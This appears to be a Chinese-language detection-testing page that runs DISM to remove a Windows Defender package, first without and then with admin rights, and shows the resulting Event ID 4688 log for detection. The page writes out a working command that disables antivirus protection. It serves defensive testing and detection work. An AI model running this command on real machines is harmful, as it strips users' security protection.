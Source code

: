### 测试1：尝试移除Windows Defender包

**测试环境**：Windows 10/11

**攻击命令**（非管理员权限）：
```cmd
C:\Users\jackma>Dism.exe /online /quiet /norestart /remove-package /packagename:Windows-Defender-AM-Default-Definitions-OptionalWrapper-Package~31bf3856ad364e35~amd64~~10.0.22621.1
错误: 740
需要提升权限才能运行 DISM。
使用提升的命令提示符完成这些任务。
```

**攻击命令**（管理员权限）：
```cmd
C:\Windows\system32>Dism.exe /online /quiet /norestart /remove-package /packagename:Windows-Defender-AM-Default-Definitions-OptionalWrapper-Package~31bf3856ad364e35~amd64~~10.0.22621.1
```

**结果**：
- 非管理员权限下，命令失败，报错740。
- 管理员权限下，命令成功执行，移除指定Defender包（需验证Defender是否完全禁用）。
- 日志记录`Dism.exe`执行，即使失败也生成进程创建事件。

## 测试留痕

### Windows安全日志（Event ID 4688：进程创建）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 4688
任务类别: Process Creation
级别: 信息
用户: N/A
计算机: MAJACKD3D7
描述:
已创建新进程。

创建者主题:
  安全 ID: S-1-5-21-4139220405-2433135684-1686031733-1000
  帐户名: jackma
  帐户域: MAJACKD3D7
  登录 ID: 0x1f9f5

目标主题:
  安全 ID: S-1-0-0
  帐户名: -
  帐户域: -
  登录 ID: 0x0

进程信息:
  新进程 ID: 0xa28
  新进程名称: C:\Windows\System32\Dism.exe
  令牌提升类型: %%1938 (TokenElevationTypeLimited)
  强制性标签: Mandatory Label\Medium Mandatory Level
  创建者进程 ID: 0x69c
  创建者进程名称: C:\Windows\System32\cmd.exe
  进程命令行: Dism.exe /online /quiet /norestart /remove-package /packagename:Windows-Defender-AM-Default-Definitions-OptionalWrapper-Package~31bf3856ad364e35~amd64~~10.0.22621.1
```
